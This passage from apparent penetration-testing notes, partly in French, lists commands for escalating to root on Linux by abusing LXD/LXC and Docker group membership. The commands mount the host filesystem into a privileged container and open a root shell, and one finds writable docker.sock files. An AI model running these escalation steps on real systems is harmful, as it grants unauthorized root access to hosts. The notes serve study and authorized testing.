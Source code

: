 ```
lxc init alpine r00t -c security.privileged=true
```

4. Mount the host file system.

```
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

5. spawn a shell inside the container instance.

```
lxc start r00t
```

6. Root shell

```
lxc exec r00t /bin/sh
```

```
ls -l /mnt/root
```


---
# DOCKER

- [[#Docker Group]]
- [[#Docker Sockets]]
- [[#Docker Escapes]]

## Docker Group

1. Identifier image docker

```shell-session
docker image ls
```

2. Monter conteneur en root avec / dans /mnt

```bash
docker run -v /:/mnt --rm -it <image> chroot /mnt sh
```


## Docker Sockets

> [!TIP]
> Si docker.sock modifiable, alors possible de lancer un conteneur root sans même être membre du groupe docker

```sh
find / -iname *docker.sock -type f 2>/dev/null
```
